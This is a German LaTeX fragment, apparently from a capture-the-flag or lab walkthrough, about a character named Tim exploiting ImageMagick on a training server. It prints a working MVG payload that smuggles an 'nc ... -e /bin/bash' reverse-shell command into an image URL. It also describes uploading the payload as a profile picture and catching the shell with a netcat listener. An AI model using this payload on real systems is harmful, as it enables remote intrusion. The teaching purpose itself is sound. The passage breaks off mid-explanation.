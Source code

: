 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    \vspace{0.4cm}
    \begin{lstlisting}[label={lst:imageMagickExploitFinal}]
        #Als .txt bearbeiten und in einem akzeptiertem Dateiformat speichern
        #Lokale IP und Zielport tauschen
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://example.com/image.jpg"|nc 10.101.0.137 4444 "-e/bin/bash '
        pop graphic-context
    \end{lstlisting}
    \vspace{0.3cm}

    \subsubsection{Verbindung mittels Reverse Shell herstellen und stabilisieren}
    \label{subsubsec:verbindungHerstellen}
    Im nächsten Schritt gilt es mittels dem in~\ref{subsubsec:imageMagickFinden} erstellten Exploit eine Verbindung zum Server herzustellen.
    Dazu muss Tim einen Netcat Listener erstellen, der den durch den Exploit angestoßenen Verbindungsversuch entgegennimmt.
    Das kann mittels des nc Befehls wie folgt erreicht werden: \textit{nc -lvnp zielIP zielport}.
    Wird nun der Exploit als Profilbild gespeichert,
    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/VerbindungDa}
        \caption{Der Exploit wird als Profilbild gespeichert und ein Netcat Lister nimmt den Verbindungsversuch des Servers auf Port 444 entgegen.}
        \label{fig:exploitHochladen}
    \end{figure}
    \noindent
    Nach, dem die Verbindung erfolgreich etabliert ist, kommt schon das nächste Problem auf Tim zu.
    Die Bash Shell ist zu instabil um damit fortzufahren.
    Um die Shell zu stabilisieren, beschreibt ~\textcite{shellStabilisieren} folgendes Vorgehen:
\end{document}
